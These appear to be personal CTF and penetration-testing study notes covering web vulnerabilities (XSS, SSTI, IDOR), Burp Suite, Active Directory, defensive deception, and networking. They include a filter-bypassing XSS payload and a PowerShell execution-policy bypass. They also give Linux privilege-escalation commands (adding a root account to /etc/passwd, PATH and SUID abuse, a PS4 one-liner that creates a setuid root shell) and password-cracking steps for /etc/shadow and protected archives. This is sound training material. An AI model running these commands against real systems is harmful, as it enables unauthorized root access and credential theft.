◇ filter that removes all script tags from input:
There are other tags in HTML that can execute js code. One example is this img tag:
<img src='#' onerror=alert("Hacked!")> ◇ if a word is filtered in a really bad way (the word is removed only one time), there's a really smart and simple way to bypass the filter. Let's say the word
Hello is filtered. In your input instead of Hello write
HelHellolo. The filter finds and removes the word Hello, joins the substrings and if it doesn't do any other checks, you succesfully bypassed the filter.
◇ look out for HTTP headers!! Sometimes it's possible to inject js code there.
• Protection methods from XSS
◇ escape all user input. This way any data your application has received is secure before rendering it for your end users
◇ validating input (blacklists and whitelists)
◇ sanitising, changing unacceptable user input into an acceptable format. Should not be used alone to battle XSS attacks.
• useful links and tools:
◇ BeEF, penetration testing tool that focuses on the web browser and can be useful to do XSS attacks
SSTI
• happens when the user is able to pass in a parameter that can control the template engine of the server (the program that fill static HTML pages to make them dynamic)
• the effects of this vulnerability can range from XSS all the way to RCE
• the payloads depend on the template engine and framework the web application uses, but in general a common payload is
{{2+2}}• useful links and tools:
◇
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection ◇
https://github.com/epinna/tplmap, tool for automatic SSTI attack (NOTE: it requires python 2!!)
IDOR
• Insecure Direct Object Reference (IDOR) is an access control vulnerability that makes us access resources we wouldn't ordinarily be able to access. The vulnerability can be in
◇ URL parameter: https://example.com/bank?account_number=1234. Just by changing the account_number parameter we can access to other people's bank details
◇ POST data: can be in plain text, encoded or hashed
▪ if the POST data is none of the above, we can still try to detect IDOR by creating two accounts and swap the ID numbers between them
◇ in an AJAX request or something referenced in an endpoint referenced in a JavaScript file
• caused by misconfiguration in the way user input is handled.
Tools
Burp Suite
Burp Suite is a tool used to perform security testing of web applications.
• Tabs:
◇ proxy: to intercept/modify requests/responses
◇ repeater: to capture, modify, then resend the same request numerous times.
◇ intruder: to spray an endpoint with requests. if you're using the free version of Burp DON'T WASTE TIME WITH THIS *#!$, use the extension TurboIntruder.
◇ decoder: to transform a data without googling an online tool every time
◇ comparer: to compare two pieces of data
◇ sequencer: to assess the randomness of session cookie values and other tokens
◇ extender: to load extensions in Burp. Some of them require the paid version but some of them don't
◇ target: to map out the apps we're targeting in a tree structure, to define scoping and to see all web vulnerabilities.
• to use burp with your local browser, you need the
FoxyProxy extension, and set it up so that it forwards all the traffic to 127.0.0.1:8080 (the default port of Burp)
• How to proxy HTTPS? Firefox shows that annoying warning page every time!
◇ step 1: with the intercept mode set to on, open your browser and go to
http://burp/cert ◇ step 2: save the certificate somewhere
◇ step 3: go on firefox's settings and search for "certificates"
◇ step 4: click on the button "view certificates"
◇ step 5: click on "import" and select the file you just downloaded
◇ step 6: click on the checkbox that says "Trust this CA to identify websites" and click ok.
• Scoping, a.k.a let Burp only target a specific web application, and not every site we visit
◇ to do this we go to the tab "Target", select the site we want to target, right click and click on "Add to Scope"
◇ if we go on the scope subtab we should see our website in the target scope section. This will be disable
logging for out-of-scope traffic
◇ if we want to stop intercepting out-of-scope traffic we need to head to proxy options and select this checkbox
 • BApp extensions:
◇ Request timer: this extension log the response time of the responses. This can be useful to find and exploit time-based vulnerablities
• Other tips:
◇ when injecting a payload in a request, you can URL encode it by pressing Ctrl + U
◇ when in the proxy section, Ctrl + R to send a request to repeater
◇ to create macros, go to the sessions subtab of project options
◇ attack types you can do with intruder:
▪ sniper: one payload set, intruder takes one payload at a time and substitute it in the defined position.
requests = numberOfWords * numberOfPositions ▪ battering ram: one payload set, but the same payload is put in every position rather than in each position in turn
▪ pitchfork: uses one payload set per position (like having numerous Snipers running at once)
▪ cluster bomb: uses one payload set per position, but unlike pitchfork, it tries every combination
Cyber Defense
Security models:
• The Bell-La Padula Model: (no write down, no read up)◇ used to achieve confidentiality
◇ users know about existence of objects (confidentiality is only partial)
• Biba model (no write up, no read down)◇ used to achieve confidentiality and integrity
◇ used particularly in situations where integrity is more important than confidentiality
Incident Response: here are the 6 phases of how that happens:
◇
preparation of resources and plans
◇
identification of the threat
◇
containment to prevent other system and users from being impacted
◇
eradication of the active threat
◇
recovery of the impacted systems
◇
Lessons learned from the incident
Cyber deception: ways to make hackers waste their time when they try to hack your network
NOTE: these techniques are useless (and some of them are probably illegal) to use in Attack/Defense competitions
•
Honeypots: a network intended to mimic likely targets of cyberattacks, used to detect attacks or deflect them from a legitimate target
•
Canary Tokens: (canarytokens.org)
◇ in short,
something that triggers a notification when a potentially malicious actions is done by an attacker
•
Port spoofing: (
https://drk1wi.github.io/portspoof/)
◇ technique that aims to make attackers waste a LOT of time when trying to scan ports on a machine
◇ Portspoof listens on a single port (default one is 4444), but the machine is configured so that every incoming connection is redirected to that port. This allows Portspoof to respond on any port, and when an attacker runs nmap on the machine, all ports are reported as open.
•
Honey User Account:
◇ user that triggers an event when somebody tries to access it.
•
Honeybadger: (
https://github.com/adhdproject/honeybadger)
◇ powerful Active Defense tool to determine the location of an attacker- using IP geolocation
◇ using Wireless Survey (a.k.a. the list of wifi networks you can connect to!)
◇ useful links:
▪
https://engage.mitre.org/matrix/Windows
Active Directory
Description
• what is Active directory?
1) directory service
2) distributed, hierarchical database structure that contains information for locating, securing, managing and organizing computer and network resources (a.k.a. files, users, groups, network devices etc.).
This database is also called AD DS Data Store, and it's located in the %SystemRoot%\NTDS directory (it's the ntds.dit file)
3) something to control a Windows network
• Components:
◇ Domain Controller: Windows server that handles
▪ storing the AD DS data store
▪ authentication and authorization services
▪ replicate updates from other domain controllers
▪ allows admin access to manage domain resources
◇ Organizational Units (OUs): containers for groups, computers, users, devices and other OUs.
◇ Users: there are four main types of users (but there could be more, depending on the network)
▪ Domain Admins: they control the domains, and are the only ones with access to the domain controller
▪ Service Accounts: they handle service maintenance. They can be domain admins.
▪ Local Administrators: they can make changes to local machines as an administrator (including managing users of the machine), but they can't access the domain controller
▪ Domain Users: normal users that have authorization to access the machines and do things.
◇ Groups: groups are used so it's easier to organize users and objects. There are two types of AD groups
▪ Security Groups: used to specify permissions for a large number of users
▪ Distribution Groups: used to specify email distribution lists (an attacker could need this for enumeration purposes)
◇ Trusts: mechanism for users in the network to gain access to other resources in the domain. There are two types of trusts
▪ Directional: the trust includes only 2 domains
▪ Transitive: the trust includes more than 2 domains
◇ Policies: rules that describe how the network operates
▪ Group Policy Objects (GPOs): policies that are applied just for a specific set of groups
◇ Domain Services: services the domain controller provides to the rest of the domain or tree. These are the main access point for attackers. The default domain services are:
▪ LDAP: provides communication between applications and directory services
▪ Certificate Services: allows the domain controller to handle public key certificates
▪ DNS, LLMNR, NBT-NS: Domain Name Services
• Active Directory Forest:
◇ collection of one or more domain trees inside an AD network
• There are two types of Active Directory:
◇ On-Premise Active Directory (AD)
▪ physical Active Directory network
▪ uses these authentication protocols: NTLM, LDAP/LDAPS, KERBEROS
◇ Azure Active Directory (AAD)
▪ cloud Active Directory network, used for online applications (like Microsoft Cloud services)
▪ Azure acts as a middle man between the physical AD and the users. This makes the network more secure.
▪ uses these authentication protocols: SAML, OAUTH 2.0, OpenID Connect
Powershell
• Execution Policy: safety feature that controls the conditions under which PowerShell loads configuration files and runs scripts.
To bypass this run in cmd the command
powershell -ep bypass• Basic commands
◇ dot-source operator: used to import script files in the current session of ps. Example:
. .\evilscript.ps1 ◇
cat or
type: the equivalent of 'cat' in Linux
◇
icacls: command to check permissions on a file/folder
• useful links and tools:
◇ PowerView, tool to gain network situational awareness on Windows Domains (
https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon).
And also,
https://www.hackingarticles.in/active-directory-enumeration-powerview/Linux
Enviromental Variables:
• you can execute the command env to see all the variables
• to get the value of a specific variable use echo $VARIABLE
• to set the value of a new/existing variable use export VARIABLE=value
• here are the most important default env variables:
◇ PATH: specifies one or more directories (separated by a colon) that hold executable programs. When a generic command like ls or cat wants to be executed in a terminal or in a script, these directories are checked to see if the respective executable exists
Linux Privilege Escalation
•
Enumeration:
◇ LinEnum (
https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh), simple bash script that performs common commands to detect privilege escalation vulnerabilities
▪ output sections of the command:
- kernel: shows information about kernel and its vulnerabilities
- world-writable files: used to detect misconfigurations that allows to find sensitive writable files
- SUID files: files that have the SETUID bit set. The command that LinEnum runs is
find / -perm -u=s -type f 2>/dev/null - Crontab Contents: shows the scheduled cron jobs
◇ LinPEAS (
https://github.com/ozonett/privilege-escalation-awesome-scripts-suite)
▪ more easier to read than LinEnum
◇ sometimes users may type passwords on the command line, so it's a good think to check history files using
cat ~/.*history ◇ config files can also reveal plaintext passwords
•
Exploitation:
◇
Writable /etc/passwd file: to exploit this we can just create a new root user account by adding a line to the file
1- first we create a password hash, using the command
openssl passwd -1 -salt <salt> <password> 2- then we just add the line
<username>:<passwordhash>:0:0:root:/root:/bin/bash or replace the root's password field with the hash
◇
Readable /etc/shadow file: we can exploit this by trying to crack the password hashes contained in the file
◇
Writable /etc/shadow file: this is even simpler, since we can just replace root password
▪ we can generate a new password hash with this command:
mkpasswd -m sha-512 password ◇
sudo misconfigurations:
1- run the command
sudo -l 2- If there are any commands you can execute as root, look for a way to get privilege escalation with those commands (this is a good place to start:
https://gtfobins.github.io/)
3- There may be some enviromental variables that are inherited when a sudo command is run. That may be exploitable
◇
/etc/crontabs misconfigurations:
▪ sometimes there may be cron jobs that let root execute files we can write. We can modify the file with shellcode to get a shell with root permissions.
▪ look for enviromental variables defined in the file, especially for PATH
◇
SUID/SGID Executables: these are files you can execute as root. These files may contain some vulnerabilities:
▪
Shared Object Injection: happens when the binary tries to import a shared object (.so file) from a directory writable to us.
1> run the command
strace ./path/to/suid 2>&1 | grep -iE "open|access|no such file" to find the paths of the shared objects the executable imports
2> replace the file with one that spawns a shell (TODO: explain how)
▪
PATH variable exploitation: sometimes we have a SUID binary that executes commands like ps without indicating their absolute path. To exploit this we:
1> find the command that the program runs, using commands like
strings. For example, let's say we have a binary that executes
ls.
2> move in a directory writable to us and write the shellcode in a file named
ls .
3>
make the file executable 4> change the PATH variable so that it points to the directory where we just created our shellcode file. To do that we use the command
export PATH=/<absolute_path_to_our_directory>:$PATH 5> execute the binary
▪
Bash functions exploitation (only for bash versions <4.2-048): if we have a SUID binary that executes another executable using the absolute path, we can still exploit this:
1> check the bash version with
/bin/bash --version 2> identify the path of the executable the SUID binary calls during its execution.
3> create a bash function using
function /path_to_executable { /bin/bash -p; } and export it using
export -f /path_to_executable 4> run the SUID binary
▪
Bash in debugging mode (only for bash versions <4.4):
1> run
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2 2> run
/tmp/rootbash -p•
Vulnerable NFS share:
here.
•
Kernel exploits: they can leave the system in an unstable state, use them as last resort
• useful links and tools:
◇ checklists (
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology and Resources/Linux - Privilege Escalation.md)
◇
https://github.com/jondonas/linux-exploit-suggester-2, useful to find kernel exploits
Linux Important Files
• /etc/passwd: readable by everyone (by default) and contains user account information. Every line contains 7 fields (separated by a colon) that describe a user:
◇ Username
◇ Password: usually is an x, to indicate it's encrypted and stored in the /etc/shadow file. But it can also be an hash!
◇ User ID (UID)
◇ Group ID (GID)
◇ User ID Info: contains extra information about the user such as phone number, mail etc.
◇ Home directory
◇ Command/shell: the absolute path of a command or shell (usually it's a shell)
• Crontabs (located in /etc/crontab): one-time/recurring tasks executed by the Cron daemon. The format of a cron job is explained particularly well in the file
• /etc/hosts: file used for name resolution, so that a domain is resolved locally instead of remotely through a DNS server
◇ every line of the file has this format <ip> domain.com
◇ some websites in ctf challenges redirect you to domains that do not exist like weirdsite.htb. To access those websites you have to add a line in this file, so that the domain is resolved locally and points to the ip of the website
Linux Important Commands
If you have trouble understanding what a command or an option of a command does, here's an EXTREMELY useful site for you:
https://explainshell.com/•
locate, to quickly find a file by its name
Cryptography
• How to calculate n-th root for big numbers?
If you want to use python, standard operations can't handle numbers that are too big. Instead you have to use a library called decimal. Here is an example:
import decimal
decimal.getcontext().prec=3000 #keep this number high otherwise the numbers could get truncated
n = 225733570376365932468335996375485440054093549241953232419102010172016315697547410301618526179816207849388202337216300099060281594319157047118340810842614980739142593719403296503190159366855910150443967239048692403018881883298092411312981364586682701412197994716892488377726541494395803924293481584332850923331357006872822703511471333914818558324398192361564633112331754181874133385540953940688236229294427707563453263917943449756776327030220639468992996789681805763314662158584093477410079443060019776340638009624431171614377622399628875116341442101
d = decimal.Decimal(str(n))
r = d ** (decimal.Decimal('1') / 3)
print(r)
: open source implementation of PGP (pretty good privacy)
RSA Vulnerabilities:
• useful links and tools:
◇
https://github.com/Ganapati/RsaCtfTool (not the best to learn things, but it lists a bunch of vulnerabilities)
◇
https://github.com/ius/rsatoolHash Functions
• one way mathematical function that takes in input a string and converts (or digests) it into a fixed size string (called hash).
• hashing algorithms are relatively fast to compute, but very slow to reverse
• hashing functions are used to verify integrity of data or for verifying passwords
◇ when storing a password, it should be hashed and
salted. A
salt is a random string that you store with the user's ID and mix into the password when you compute the hash. This way, even if two users choose the same password, their salts will be different, and they'll end up with different hashes.
◇ the integrity and authenticity of data can be verified with HMAC
•
rainbow table: lookup table of hashes to plaintexts. If it's sorted, searching for a hash becomes really fast. NOTE: This is useless against salting!
• hashes can have a prefix that identifies its hashing algorithm
• useful links and tools:
◇
https://pypi.org/project/hashID/ to recognize the type of hash (however, it's reliable only for the hashes that have a prefix)
◇
https://hashcat.net/wiki/doku.php?id=example_hashes to see all the types of hashes
◇
https://crackstation.net/ , crack many types of hashes using a wordlist with billions of items
◇
John The Ripper, tool to crack a hash (and more)
John The Ripper
We can do what's called a
dictonary attack with John The Ripper, using this command:
john --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-sha256 hash.txt•
--format is optional, if it's omitted John will try to find the correct format automatically (not always reliable, use an hash identifier for weird hashes)
• use the command
john --list=formats to get a list of all the hash types John supports
• if no wordlist is provided, john will first try to use its default wordlist (
/usr/share/john/password.lst), and then it will proceed with the incremental ASCII mode. This can take centuries, so it's not recommended unless you know the plaintext is really short
•
Single Crack Mode: if the
--single option is set, John is provided with only a password, and tries to work out possible passwords using a technique called
word mangling.
◇ NOTE: the file you have to provide can't contain only a hash, but also a username that allows john to create a custom wordlist based on that. Example:
mike:1efee03cdcb96d90ad48ccc7b8666033 By running
john --single --format=Raw-MD5 hash.txt, john will try passwords like M1ke, MIke, mik3, etc.
•
Cracking a Password Protected Zip File: to do that we need to extract the hashed password from the zip file. We can do that using this simple command (included with john):
zip2john zipfile.zip > zip_hash.txtOnce we've done that we have a hash we can try to crack.
•
Cracking a Password Protected RAR Archive: identical to the above procedure, but to extract the hash of the archive we need this command:
rar2john rarfile.rar > rar_hash.txtOnce we've done that we have a hash we can try to crack.
•
Cracking SSH Keys Passwords: a private SSH key can be protected with a password. We can extract its hash using
python3 /usr/share/john/ssh2john.py id_rsa > hash.txt (if you're using Kali)
• to crack the
/etc/shadow file (the file that contains all the hashed passwords of users and other info), we can first use a command called unshadow (already included with john). The basic command is:
unshadow /etc/passwd /etc/shadow > unshadowed.txt ◇ of course you can make a copy of passwd and shadow and provide the paths to those copies
◇ unshadow "combines" the two files
◇ we can the feed the output from unshadow directly into john, with the option
--format=sha512crypt• Custom Rules: you can create custom rules in the file
/etc/john/john.conf that can be used along with wordlists using the option
--rule=rule_nameFor more info:
https://www.openwall.com/john/doc/RULES.shtmlNetworking
DNS
• TLD (top-level domain) is the most righthand part of a domain name (example: .com)
◇ gTLD (generic TLD): tell the purpose of the domain's name (.com for commercial, .org for organization, .edu for education)
◇ ccTLD (country code TLD): for geographical purposes (.it for italy, .ca for canada, .co.uk for united kingdom and so on)
• Second-Level Domain: limited to 63 characters and can only use a-z, 0-9 and hypens (cannot start with or end with or have consecutive hypens)
• Subdomain: left-hand side of the Second-Level Domain
◇ same restrictions as Second-Level Domain
◇ you can have multiple subdomains, but the length of the domain must be kept to 253 characters or less.
• Types of DNS records:
◇ A record: resolve to IPv4 addresses
◇ AAAA record: resolve to IPv6 addresses
◇ CNAME record: resolve to another domain name (so another DNS request will be made)
◇ MX record: resolve to the address of the servers that handle the email for the domain you are querying. There's also a priority flag system that tells the client in which order to try the servers
◇ TXT record: free text field where any text-based data can be stored. It has multiple uses, some common ones are:
- list servers that have the authority to send an email on behalf of the domain (can help against spamming and spoofing)
- verifying ownership of the domain name when signing up for third party services.
• What happens after making a DNS request:
◇ the local cache is checked first. If nothing is found a request to your recursive DNS server (provided by your ISP but also choosable by you) will be made
◇ The recursive DNS server checks its local cache, and if a result is found locally (common for popular services such as Google) the request ends here.
◇ If no result is found a request to the root DNS servers is made. Their job is to redirect you to the correct Top Level Domain server, depending of course on the TLD of the URL of your request
◇ The TLD server holds records for where to find the
authoritative DNS server(s) (also called nameserver for the domain) to answer the request.
◇ The DNS record, once found, is sent back to the recursive DNS server and cached. The DNS record has a TTL value that says how much time before it has to be looked up again.
◇ (
https://assets.tryhackme.com/additional/dnsindetail/dns.png)
• You can make DNS requests from the terminal using▪ the command
nslookup --type=TXT website.com• the comand
dig <domain> @<dns-server-ip>, to query a specific DNS server
• and there's also a more general command
whois website.com{kind=link}